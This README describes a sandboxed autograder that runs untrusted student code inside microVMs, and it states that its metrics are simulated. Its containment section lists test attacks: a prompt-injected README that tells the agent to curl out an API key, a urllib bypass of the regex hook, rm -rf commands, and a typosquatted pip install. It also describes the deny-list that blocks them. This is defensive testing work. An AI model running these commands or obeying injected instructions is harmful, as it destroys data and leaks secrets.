

# Hostile-Submission Autograder on Celesto

An agent that grades untrusted student code inside **Celesto microVMs**, with a Postgres run ledger,
a command audit log, reliability numbers, a containment test, and a designed step-7-of-10 recovery policy.

> ### Read this first: what is real and what is not
> This repo was built in a sandbox with **no KVM, no Celesto Cloud key and no LLM key**, so the
> committed `reports/*` and `logs/commands.jsonl` were produced with `--provider sim`: an in-memory **fake guest**
> that executes nothing (not even on the host). Every report carries `"provenance": {"simulated": true}` and the
> numbers below are **not Celesto measurements**. The Celesto adapter (`grader/providers.py: CelestoProvider`) was
> written against the real `celesto` 0.1.8 SDK source but **has not been run against a live guest by me**.
> To replace the evidence with real data: `python -m grader.cli all --provider local` (or `cloud`) — see Setup.
> The demo video (`demo/walkthrough.mp4`) also still has to be recorded; script in `demo/RECORDING.md`.

## Problem statement

**Who:** teaching assistants and bootcamp instructors who must autograde *untrusted* student code (fork bombs,
infinite loops, file snooping, typosquatted installs) and cannot afford for one submission to touch the grading server.
**Agent work:** per submission it boots a fresh microVM, writes the student's code and a test harness into it,
compiles and runs it under a timeout, reads the results, has an LLM-or-scripted reviewer inspect the guest, and writes a grade.
**Proof output:** `/work/grade.json` read back *from the guest* — `{submission, score, verdict, feedback}`.
A run is a success only if that score/verdict equals the known-correct grade for the submission (so grading a hostile
submission correctly *is* success). Replacing Celesto with `subprocess.run()` would let the infinite loop, the `/etc/shadow`
snoop and any `rm -rf` run on the grading host.

## Architecture



Data flow: the agent (LLM → `run_shell` tool call) → **safety hook** (code, can veto) → **audit line** → Celesto guest.
Nothing that runs a command, writes a file, or reads results runs on the host. Compose only starts the API + ledger; it never boots Firecracker.

## How I used Celesto

| Capability | Why / what I would have lost without it |
|---|---|
| **Safety hooks** (`grader/hooks.py`, also registered as a Celesto `Callback`) | Code that runs *before* the guest sees a command and can veto it (`CommandBlocked`). Blocks `rm -rf /`, fork bombs, secret reads, egress, non-allow-listed installs. A prompt sentence cannot do this; blocked attempts are still audit lines. |
| **Snapshots** (`CelestoSandbox.snapshot/restore`) | Checkpoint after environment prep, before the risky step 7. This *is* the rollback recovery policy, and the way the containment test proves a destroyed guest can be restored. Local runtime only. |
| **Network policy** (`internet_settings={"mode": "off"}`) | Independent second layer for the containment guest: an exfiltration that bypasses the regex hook (python `urllib` instead of `curl`) still cannot leave the VM. |

Also deliberately used: one microVM = one kernel per submission (the whole point vs. containers), unique `sbx-` names, `try/finally` deletion.

## Eval report

<!-- EVAL:START -->
**Provenance of the numbers currently committed: `sim` (SIMULATED - not Celesto measurements).**

| metric | value |
|---|---|
| runs (fresh sandboxes) | 20 |
| success rate | 75% |
| median wall-clock | 2.78 s |
| p90 wall-clock | 3.14 s |
| median boot-to-ready | 0.64 s |
| total cost | $0.0003 (estimate) |

Containment: blocked=True, host_untouched=True.
<!-- EVAL:END -->

Raw data: `reports/reliability.json`, failure analysis: `reports/postmortem.md`, step-7 policy comparison:
`reports/failure_policy_comparison.json`, concurrency: `reports/concurrency.json`.
Cost: local runtime is free (cost 0); on Cloud cost = wall-clock × Micro price ($0.015/h). Simulated runs show the *estimate* at that price.
Reproduce: `python -m grader.cli eval --provider local --runs 20`. `fresh=true` for every row: each run creates a new, uniquely named guest.
Failed rows are never removed; the success-rate/median/p90/cost arithmetic is checked by `tests/test_reports.py`.

## Containment test

Attacks (in `grader/reports.py: run_containment`, evidence in `reports/evidence/containment.log`, summary `reports/containment.json`):
1. **Prompt-injected README** tells the agent to `curl ...?k=$API_KEY` → hook blocks (audit line, `decision: block`).
2. **Hook bypass** (`python3 -c urllib...`, which the regex does not recognise) → hook allows it → **network policy off** makes it fail inside the guest.
3. **`rm -rf /`** → blocked. **`rm -rf /work/*`** (guest-scoped, allowed on purpose) destroys guest data → **snapshot rollback restores it**.
4. **`pip install reqeusts`** (typosquat) → blocked, logged.
5. A **host sentinel directory** (fake `.env` + data) is hashed before/after: unchanged.

Honest limits: the hook is a deny-list heuristic and *will* miss novel commands — that is why network policy and the microVM boundary exist
as separate layers. With the simulator, "host untouched" is true trivially; it only means something with `--provider local|cloud`.
Network policy needs the local Linux+Firecracker backend; on Cloud the containment relies on the hook + VM boundary and the log says so.

## State and failure design

Step 7 of 10 (running the student's code under the harness) is the designed crash: the harness process is `kill -9`'d.
Lifecycle: `Created → Ready → Running → MidTaskFailure → {Resumed | RolledBack | FreshStart} → Succeeded/Failed → Deleted`.
**Chosen policy: `rollback`** — restore the snapshot taken after steps 2–5, re-run 6–7 once.
- *resume* is cheapest but reuses a disk the dying harness may have corrupted — wrong for hostile code.
- *fresh* is simplest and safest but pays a full boot + prepare again (what I fall back to automatically on Cloud, which has no snapshots; logged as `policy_degraded`).
- *rollback* costs one snapshot (~tenths of a second to seconds, backend-dependent) and guarantees a known-good state without a reboot-and-reinstall.
Exactly **one** retry: a deterministic failure must not loop and burn credit. Every path ends in `Deleted` (the `finally:` in `grader/pipeline.py: run_job`;
SIGTERM is mapped to the same path in `grader/cli.py`). Boot failures have no policy (nothing to restore); see `reports/postmortem.md`.
Evidence: `reports/failure_policy.json`, `reports/failure_trace.jsonl` (contains the `policy_applied` event), `tests/test_pipeline.py` (all three policies).

## Setup

**Review in ~5 minutes, no KVM, no keys:**
```bash
# (optional) cp .env.example .env  - only needed for real Celesto/LLM runs
docker compose up --build       # api + ledger healthy < 5 min
curl localhost:8080/health      # {"status":"ok"}
curl localhost:8080/api/runs    # includes sbx-seeddemo1
curl localhost:8080/reports/reliability.json   # committed reports are served
pip install -r requirements.txt && pytest -q  # validates every report file + API + lifecycle
```
**Real measurements (Linux with KVM, or macOS):**
```bash
pip install celesto && celesto setup && celesto doctor
export CELESTO_PROVIDER=local          # snapshots + network policy need local
export LLM_BASE_URL=... LLM_API_KEY=... LLM_MODEL=...   # optional; without them the scripted reviewer is used
export LEDGER_API_URL=http://localhost:8080             # optional: stream states into the ledger
python -m grader.cli all --provider local               # rewrites reports/, logs/, README stats block
pytest -q
```
Celesto Cloud: `CELESTO_PROVIDER=cloud CELESTO_API_KEY=...` (free trial = one retained sandbox, so skip `concurrency`; no snapshots → `fresh` fallback).
Network note: step 4 runs `apk add -q python3` if the guest lacks it, which needs internet (`CELESTO_NETWORK_MODE=on`, default). With an image that already has python3 set `CELESTO_NETWORK_MODE=off`.
`POST /api/jobs {"fixture":"infinite_loop"}` makes the API itself grade a fixture (needs a provider reachable from the api container, i.e. Cloud).

## Layout
`app/` ledger API · `grader/` agent, hook, pipeline, providers, report generators · `seeds/01_runs.sql` · `reports/` · `logs/commands.jsonl` · `tests/` · `demo/`.

## Credits & disclosure
Built with **Claude (Anthropic) as an AI coding assistant**; I must be able to explain every design decision. Uses the Celesto SDK (Apache-2.0), FastAPI, psycopg.
Design patterns borrowed from the task brief's OpenMuse notes: structured tool, honest failure states, no automatic retry of uncertain actions (one bounded retry only after a *known* failure).

## Honest product feedback on Celesto
- `Celesto` (local, has `snapshot`/`callbacks`/`internet_settings`) and `Computer` (cloud+local, no snapshot API) are two facades with different surfaces; portable code needs an adapter like mine.
- `Celesto.from_snapshot()` takes no `callbacks=`, so a restored guest silently loses your safety hook unless you call `add_callback` again.
- Docs still mix `smolvm` and `celesto` names.
